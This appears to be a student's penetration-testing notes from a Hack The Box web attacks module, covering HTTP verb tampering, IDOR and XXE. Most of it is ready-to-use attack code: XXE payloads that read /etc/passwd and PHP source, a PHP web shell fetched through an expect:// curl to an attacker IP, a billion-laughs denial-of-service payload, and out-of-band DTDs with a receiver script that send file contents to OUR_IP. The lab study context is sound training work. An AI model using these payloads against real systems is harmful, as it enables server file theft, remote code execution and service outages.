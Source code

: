 # HTTP Verb Tampering
- Utilize different HTTP method to perform exploitation
- Utilize filename for command injection
`HTTP Method`

- `HEAD`
- `PUT`
- `DELETE`
- `OPTIONS`
- `PATCH`

# IDOR
mostly relies on Burp request, fuzzing and sometimes check for encryption in MD5 or base64

- In `URL parameters & APIs`
- In `AJAX Calls`
- By `understanding reference hashing/encoding`
- By `comparing user roles`

|**Command**|**Description**|
|---|---|
|`md5sum`|MD5 hash a string|
|`base64`|Base64 encode a string|
# XXE
Calling an XXE DDT
![[Pasted image 20250411134707.png]]

## LFI
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

## RCE
```shell-session
alakin2504@htb[/htb]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
alakin2504@htb[/htb]$ sudo python3 -m http.server 80
```

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

## Other XXE Attacks
### DOS
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

This payload defines the `a0` entity as `DOS`, references it in `a1` multiple times, references `a1` in `a2`, and so on until the back-end server's memory runs out due to the self-reference loops. However, `this attack no longer works with modern web servers (e.g., Apache), as they protect against entity self-reference`. Try it against this exercise, and see if it works.

## Advanced Data Exfiltration
```shell-session
alakin2504@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
alakin2504@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```
---

## Error Based XXE
Only works if we found an /error directory
![[Pasted image 20250411141549.png]]

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
^ External DTD

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

## Blind Data Exfiltration
xxe.dtd
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

index.php
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

Running server
```shell-session
alakin2504@htb[/htb]$ vi index.php # here we write the above PHP code
alakin2504@htb[/htb]$ php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
```

payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```
## Automated OOB Exfiltration
```shell-session
alakin2504@htb[/htb]$ git clone https://github.com/enjoiz/XXEinjector.git

Cloning into 'XXEinjector'...
...SNIP...
```

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

```shell-session
alakin2504@htb[/htb]$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```

